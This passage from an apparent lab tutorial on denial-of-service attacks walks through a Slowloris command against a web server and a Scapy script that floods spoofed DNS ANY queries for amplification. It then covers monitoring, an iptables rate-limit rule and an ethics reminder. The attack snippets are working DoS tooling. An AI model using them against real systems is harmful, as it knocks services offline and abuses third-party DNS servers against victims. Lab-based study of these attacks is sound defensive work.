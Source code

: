 ### Example Scenario: Targeting a Web Server
- **Recon Results**:
  - Nmap: Port 80 open, Apache 2.4.29 (vulnerable to Slowloris).
  - Wireshark: Heavy TCP traffic on port 80.
  - `htop`: Limited CPU/memory on target VM.
- **Chosen Method**: Slowloris (application-layer attack to exploit connection pool).
- **Execution**:
  ```bash
  slowloris -s 500 -p 80 <target_IP>
  ```
- **Monitoring**:
  - On target: `netstat -an | grep ESTABLISHED` to see open connections.
  - On attacker: Watch Slowloris output for connection count.
- **Expected Result**: Target web server becomes unresponsive.

### Example Scenario: Targeting a DNS Server
- **Recon Results**:
  - Nmap: Port 53/UDP open, BIND 9.8 (supports ANY queries).
  - Wireshark: Large DNS responses to ANY queries.
- **Chosen Method**: DNS Amplification (exploits large response size).
- **Execution**:
  ```python
  from scapy.all import *
  target_ip = "<target_IP>"
  dns_server = "<dns_server_IP>"
  packet = IP(src=target_ip, dst=dns_server)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="example.com", qtype="ANY"))
  send(packet, loop=1, verbose=0)
  ```
- **Monitoring**:
  - On target: `tcpdump udp port 53` to see incoming DNS responses.
- **Expected Result**: Target experiences bandwidth saturation.

## 5. Best Practices for Lab Attacks
- **Isolation**: Use a host-only network in VirtualBox/VMware.
- **Monitoring**: Use `tcpdump`, Wireshark, or `htop` to observe attack impact.
- **Mitigation Testing**: After each attack, apply defenses (e.g., `iptables` rate limiting) to learn protection:
  ```bash
  iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/second -j ACCEPT
  ```
- **Reset**: Revert VMs to a clean snapshot after each test.

## 6. Ethical and Legal Reminder
- **Lab Only**: All attacks must be performed in a controlled, isolated environment.
- **Permission**: Never target real systems without explicit written consent (illegal under laws like CFAA in the US).
- **Defense Focus**: Use this knowledge to build robust defenses, not to cause harm.

## 7. Next Steps
- **Practice**: Set up a lab with multiple targets (web server, DNS server) and test different methods.
- **Deep Dive**: Explore advanced tools like LOIC or custom Python scripts for specific attacks.
- **Defense**: Learn to configure WAFs (e.g., ModSecurity) or CDNs (e.g., Cloudflare in a lab).